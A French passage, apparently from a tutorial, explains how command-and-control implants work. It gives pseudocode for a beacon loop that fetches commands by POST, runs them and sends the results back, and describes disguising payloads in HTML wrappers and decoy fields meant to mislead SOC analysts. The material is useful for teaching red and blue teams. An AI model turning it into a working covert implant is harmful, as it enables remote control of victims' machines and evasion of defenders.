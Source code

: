 En pseudo code rapide ça donnerait quelque chose du genre :

```cpp
while(1) {
    std::string command = POST(url, userAgent, postData);
    std::string result = exec(command);
    POST(url, userAgent, resultPostData);
    Sleep(TIMER + JITTER);
}
```

Alors là vous me direz, oui mais faut que ça soit chiffré un minimum et noyé dans la masse ?

Et bien vous avez raison, en fait la plupart du temps, ce que font les C2 classiques, c'est qu'ils mettent un POST prepend et un POST append avec du chiffrement de leur payload et de l'encodage pour éviter les problèmes d'UTF-8 par exemple, ils encodent ça en base64 ou ils font du HEX, il y a plein de méthodes différentes pour gérer ce cas là mais concrêtement la requête POST dans le body pourrait donner quelque chose comme :

```
id=1&fake_cache_data=BLABLA&cache_data=PAYLOAD&output=json
```

Où `fake_cache_data` serait utilisé pour tromper des équipes SOC avec une fausse payload, et la vraie payload se trouverait par exemple dans `cache_data`.

Il y a encore plus surnois, c'est de découper la payload en plusieurs POST avec des leurres à côté, mais je n'ai jamais encore vu trop ça dans un C2 public ou commercial, ça reste compliqué à mettre en place niveau code en réalité.

Il est aussi possible et ce qu'on voit la plupart du temps, d'avoir l'implant qui communique son `SERVER_RESPONSE_PREPEND` et `SERVER_RESPONSE_APPEND` c'est concrêtement la même chose pour que le `POST prepend` et `POST append` mais ça concerne la réponse du serveur, exemple :

```html
<html><body><p>PAYLOAD</p></body></html>
```

La PAYLOAD se trouve à ce moment là entre son `SERVER_RESPONSE_PREPEND` et `SERVER_RESPONSE_APPEND` qui sont les balises html de réponse du serveur.

Ici le `SERVER_RESPONSE_PREPEND` serait :

```html
<html><body><p>
```

Et le `SERVER_RESPONSE_APPEND` serait :

```html
</p></body></html>
```

## De quoi est composé le serveur ?

Le serveur attend et traite les requêtes de l'implant, il a une base de données disponible qui lui permet d'enregistrer les commandes qu'il a reçu, les commandes qu'il a pas encore traîté `is_executed?` et les résultats si `is_executed` est égal à `False`, l'implant exécute la commande et renvoie le résultat, à ce moment là `is_executed` passe à true avec le résultat de la commande donc l'implant sait du coup qu'il ne doit plus la traiter.
